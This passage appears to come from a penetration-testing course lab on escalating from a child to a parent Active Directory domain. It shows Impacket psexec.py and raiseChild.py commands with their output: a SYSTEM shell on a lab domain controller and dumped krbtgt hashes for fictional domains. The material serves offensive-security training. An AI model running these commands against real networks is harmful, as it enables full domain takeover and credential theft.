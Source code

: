 #### Getting a SYSTEM shell using Impacket's psexec.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:

- Obtains the SID for the Enterprise Admins group of the parent domain
- Retrieves the hash for the KRBTGT account in the child domain
- Creates a Golden Ticket
- Logs into the parent domain
- Retrieves credentials for the Administrator account in the parent domain

Finally, if the `target-exec` switch is specified, it authenticates to the parent domain's Domain Controller via Psexec.

#### Performing the Attack with raiseChild.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
maiamor@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
```